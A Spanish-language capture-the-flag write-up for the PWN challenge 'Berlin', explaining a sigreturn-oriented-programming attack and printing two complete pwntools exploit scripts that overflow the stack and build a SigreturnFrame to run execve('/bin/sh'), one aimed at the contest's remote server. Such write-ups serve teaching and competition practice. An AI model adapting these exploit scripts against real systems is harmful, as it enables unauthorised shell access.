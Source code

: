 ```yaml
---
layout: single
classes: wide
title: "Sombrero-Q4 CTF [PWN] Berlin"
excerpt: "Aquí dejo un writeup cortito para el desafío Berlin de la categoría PWN, hecho por dplastico del CTF de SombreroBlanco, llevado a cabo el fin de semana del 25 de Julio. Tenia una puntuacion de 500 pts y, si bien el CTF tenia puntuacion dinámica, se mantuvo ahi por la baja cantidad de soluciones que tuvo."
---
```


Aquí dejo un writeup cortito para el desafío Berlin de la categoría PWN, hecho por [dplastico](https://dplastico.me/) del CTF de SombreroBlanco & Q4, llevado a cabo el fin de semana del 25 de Julio. Tenia una puntuacion de 500 pts y, si bien el CTF tenia puntuacion dinámica, se mantuvo ahi por la baja cantidad de soluciones que tuvo.

Pueden descargar el binario [aqui](https://c4ebt.github.io/content/sombrero2020/berlin).

Para sacar la shell de este binario usé una técnica llamada SROP. Recomiendo investigar un poco sobre ella si quieren entender lo que pasa de mejor manera :D

En un principio lo que mas me complicó para resolver el desafío fue la falta de espacio para roppear y la falta de gadgets para pivotear, ya que SROP requiere de mucho espacio en el stack para introducir la SigReturn Frame, que es bastante larga. La falta de gadgets en verdad fue una falta de visión mía o algo, ya que por alguna razón pensé que no podia usar un gadget que era bastante claro.

Aquí dejo un dump de las instrucciones del binario, explicando un poco como va la gadget chain para pivotear el stack:

![](https://c4ebt.github.io/assets/images/content/sombrero2020/dump.png)

La forma intencional para resolver el desafío era mediante el simple uso de esta gadget chain, pero como dije antes, yo no la vi en un principio. Por eso pase un tiempo buscando otra forma de explotar el binario, sin necesidad de un stack pivot. Finalmente, llegue a un exploit en el que llamaba a la syscall de read nuevamente, pero esta vez apuntando a un buffer (mediante el control de `rsi`) que estaba mas arriba en el stack, lo que me permitiría sobreescribir aun mas el stack, dándome mas espacio (en este caso virtualmente ilimitado) para poder roppear y tirar mi SigReturn frame tranquilo. 

Logré sacar una shell localmente con este exploit, pero no pude hacer que funcionara de manera remota. Esto se debe a que los setups remoto y local son diferentes, por lo que las variables de ambiente están posicionadas también de manera diferente en el stack. Esto probablemente causo que en la instancia remota mi exploit sobreescribiera alguna env var importante, causando que el proceso crashee. La otra posibilidad es que, al ser diferentes los stacks, los offsets que use para mi exploit hayan sido diferentes también. Esta segunda posibilidad es fácilmente solucionable en la posesión de un debugger y de manera local, pero al estar la diferencia en la instancia remota, habría requerido fuerza bruta a algún offset, siendo la técnica  potencialmente imposible.

Aquí dejo entonces ambos exploits, el de la gadget chain simple (que funcionaba de manera remota) y el mas complejo que no funcionaba. Siendo la vulnerabilidad la misma, son considerablemente similares, variando solo en algunos puntos.


#### ret2read:
```python
#!/usr/bin/python
from pwn import *

context.log_level = 'DEBUG'
p = process("./berlin")
#p = gdb.debug("./berlin", "b *0x004000f5")
#p = remote("46.101.118.108", 12345)

stack = u64(p.recv(8))
log.info("Stack: " + hex(stack))

junk = "/bin/sh\x00".ljust(512, "A")

# Addresses
loop = p64(0x004000f5)
mov_edx_syscall = p64(0x4000d5)
xors = p64(0x4000dd)
mov_rsi_rsp = p64(0x400108)
syscall = p64(0x4000da)
write = p64(0x4000f2)


payload = (junk
        + mov_rsi_rsp		# Setear rsi a una direccion del stack
        + xors			# Resetear otros registros para la syscall de read
        + mov_edx_syscall	# read syscall a un buffer en el stack para tener mas espacio
        )

p.sendline(payload)

context.arch = 'amd64'
frame = SigreturnFrame()

frame.rip = 0x4000da # syscall
frame.rax = 0x3b     # execve
frame.rdi = stack - 520        # binsh
frame.rdx = 0	     # NULL argv
frame.rsi = 0	     # NULL envp
frame.rsp = stack    # No es necesario

payload = (p64(0x00)*2	# Offset
        + xors		# Resetear registros
        + p64(0x4000ec)	# mini-read (me sirvio para evitar algunos errores, es posible no usarlo)
        + syscall	# mini-read
        + loop*14	# Loop para llegar a rax=15
        + syscall	# SigReturn
        + str(frame)	# SigReturn Frame
        )

payload = payload.ljust(0x228, "Y")

p.sendline(payload)

p.interactive()
```

#### Gadget chain stack pivot:
```python
#!/usr/bin/python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./berlin")
#p = gdb.debug("./berlin", "b *0x004000f5")
p = remote("46.101.118.108", 12345)

stack = u64(p.recv(8)) # Stack leak que nos da el binario
log.info("Stack: " + hex(stack))


# Addresses
loop = p64(0x004000f5)  	# Address del gadget que nos permite incrementar rax para
				# llegar a la syscall 15 (SigReturn)
mov_edx_syscall = p64(0x4000d5)
xors = p64(0x4000dd)
mov_rsi_rsp = p64(0x400108) # mov    rsi,rsp; ret;
syscall = p64(0x4000da)

context.arch = 'amd64'
frame = SigreturnFrame()

frame.rip = 0x4000da # syscall
frame.rax = 0x3b     # execve
frame.rdi = stack - 520        # filename: "/bin/sh\x00"
frame.rdx = 0	     # NULL argv
frame.rsi = 0	     # NULL envp
frame.rsp = stack    # No es necesario


payload2 = ("/bin/sh\x00" # String para la call a execve
        + xors		  # Resetear registros
        + loop*15	  # Loop para llegar a rax=15
        + syscall	  # SigReturn
        + str(frame)	  # SigReturn Frame
        )

payload2 = payload2.ljust(512, "Y")
payload1 = (payload2
        + mov_rsi_rsp	# Poner una direccion del stack en rsi
        + p64(0x40011c) # xor r15, rsi; ret
        + p64(0x40010c) # sub    r15,0x200; mov    rsp,r15; ret;
        )


p.sendline(payload1)
p.interactive()
```

Gracias a los organizadores del CTF, estuvo muy divertido :D
Cualquier duda están mis redes sociales adjuntadas en la pagina web para que puedan ponerse en contacto.

Keep pwning!
